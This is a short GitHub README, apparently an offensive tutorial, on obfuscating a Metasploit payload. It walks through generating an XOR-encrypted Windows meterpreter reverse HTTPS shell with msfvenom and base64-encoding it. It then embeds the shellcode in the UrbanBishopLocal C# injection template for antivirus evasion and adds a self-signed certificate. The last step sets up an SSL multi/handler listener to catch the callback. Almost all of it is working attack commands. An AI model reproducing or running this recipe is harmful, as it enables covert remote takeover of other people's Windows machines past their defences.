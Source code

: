 # Payload-Obfuscation
Some Usefull tools and specific modus operanti to obfuscate payload  

### Payload generation

```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<OurIPADRESS> LPORT=443 --encrypt xor --encrypt-key <helloworld> --format raw > testf
```  
helloworld are the key but we can write what we want.  

### Hex data dump

```sh
hexdump -v -e '"\\""x" 1/1 "%02x" ""' testf
```  

### Convert data to Base64  
```sh
base64 testf > newtest
```

### Generate Key and certificate to obfuscate more seriously
```sh
openssl req -newkey rsa:4096 \
            -x509 \
            -sha256 \
            -days 3650 \
            -nodes \
            -out example.crt \
            -keyout example.key
```  
- Concatenate two files in one 

example.key & example.crt > example.pem

### UrbanBishopLocal (for compile c# progam)  
- https://github.com/slyd0g/UrbanBishopLocal  
on windows machine install git, netcore and vscode, in the vscode install the c# extension  
```sh
dotnet new console -o nameofproject
cd nameofproject
code . (allowing to open the progam.cs in vscode directly)
```   
--> in this part we will make a copy of the code in the UrbanBishopLocal folder which named program.cs --> it's template to make the obfuscation of our payload (just copy our base64 code at the end progam.cs), but also we specified the same key which we are defined in the msfvenom part.
#### don't forget the c# extension  

```sh
dotnet build
```  
### Metasploit

```sh
msfconsole  
use exploit/multi/handler  
set HandlerSSLCert </home/PATH/TO/THE/example.pem> (of the key we are generate earlier)  
set StagerVerifySSLCert true  
set LHOST ourIPADRESS  
set LPORT 443  
exploit
```  
